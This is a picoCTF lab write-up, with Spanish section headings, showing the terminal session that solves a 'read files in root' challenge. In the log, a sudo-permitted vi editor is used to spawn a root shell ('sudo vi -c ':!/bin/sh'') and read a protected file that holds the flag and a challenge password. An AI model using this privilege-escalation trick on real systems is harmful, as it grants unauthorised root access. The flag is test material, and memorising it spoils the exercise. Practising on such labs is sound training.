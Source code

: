 Descripción
	Can you read files in the root file?
	Additional details will be available after launching your challenge instance.
	
Solución
	
	┌──(gibran㉿vbox)-[~]
	└─$ ssh -p 59610 picoplayer@saturn.picoctf.net        
	The authenticity of host '[saturn.picoctf.net]:59610 ([13.59.203.175]:59610)' can't be established.
	ED25519 key fingerprint is SHA256:HKm/Bw1C+mhj23vO8tXULrgLFYvzP6gQH2IwgUiQTok.
	This key is not known by any other names.
	Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
	Warning: Permanently added '[saturn.picoctf.net]:59610' (ED25519) to the list of known hosts.
	picoplayer@saturn.picoctf.net's password: 
	Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 6.8.0-1035-aws x86_64)
	
	 * Documentation:  https://help.ubuntu.com
	 * Management:     https://landscape.canonical.com
	 * Support:        https://ubuntu.com/advantage
	
	This system has been minimized by removing packages and content that are
	not required on a system that users do not log into.
	
	To restore this content, you can run the 'unminimize' command.
	
	The programs included with the Ubuntu system are free software;
	the exact distribution terms for each program are described in the
	individual files in /usr/share/doc/*/copyright.
	
	Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
	applicable law.
	
	picoplayer@challenge:~$ cd /
	picoplayer@challenge:/$ ls
	bin   challenge  etc   lib    lib64   media  opt   root  sbin  sys  usr
	boot  dev        home  lib32  libx32  mnt    proc  run   srv   tmp  var
	picoplayer@challenge:/$ ls -al
	total 0
	drwxr-xr-x   1 root   root     51 Sep 29 15:46 .
	drwxr-xr-x   1 root   root     51 Sep 29 15:46 ..
	-rwxr-xr-x   1 root   root      0 Sep 29 15:46 .dockerenv
	lrwxrwxrwx   1 root   root      7 Mar  8  2023 bin -> usr/bin
	drwxr-xr-x   2 root   root      6 Apr 15  2020 boot
	d---------   1 root   root     27 Aug  4  2023 challenge
	drwxr-xr-x   5 root   root    340 Sep 29 15:46 dev
	drwxr-xr-x   1 root   root     66 Sep 29 15:46 etc
	drwxr-xr-x   1 root   root     24 Aug  4  2023 home
	lrwxrwxrwx   1 root   root      7 Mar  8  2023 lib -> usr/lib
	lrwxrwxrwx   1 root   root      9 Mar  8  2023 lib32 -> usr/lib32
	lrwxrwxrwx   1 root   root      9 Mar  8  2023 lib64 -> usr/lib64
	lrwxrwxrwx   1 root   root     10 Mar  8  2023 libx32 -> usr/libx32
	drwxr-xr-x   2 root   root      6 Mar  8  2023 media
	drwxr-xr-x   2 root   root      6 Mar  8  2023 mnt
	drwxr-xr-x   2 root   root      6 Mar  8  2023 opt
	dr-xr-xr-x 285 nobody nogroup   0 Sep 29 15:46 proc
	drwx------   1 root   root     23 Aug  4  2023 root
	drwxr-xr-x   1 root   root     54 Sep 29 15:48 run
	lrwxrwxrwx   1 root   root      8 Mar  8  2023 sbin -> usr/sbin
	drwxr-xr-x   2 root   root      6 Mar  8  2023 srv
	dr-xr-xr-x  13 nobody nogroup   0 Sep 29 15:46 sys
	drwxrwxrwt   1 root   root      6 Aug  4  2023 tmp
	drwxr-xr-x   1 root   root     18 Mar  8  2023 usr
	drwxr-xr-x   1 root   root     17 Mar  8  2023 var
	picoplayer@challenge:/$ [sudo vi -c ':!/bin/sh' /dev/null]
	-bash: [sudo: command not found
	picoplayer@challenge:/$ sudo vi -c ':!/bin/sh' /dev/null
	[sudo] password for picoplayer: 
	
	# cd challenge
	# ls -al
	total 4
	d--------- 1 root root 27 Aug  4  2023 .
	drwxr-xr-x 1 root root 51 Sep 29 15:46 ..
	---------- 1 root root 98 Aug  4  2023 metadata.json
	# cat metadata.json
	{"flag": "picoCTF{uS1ng_v1m_3dit0r_021d10ab}", "username": "picoplayer", "password": "j4ks-9nxB-"}# ^C

	
Notas adicionales
	
	
Referencias
	
	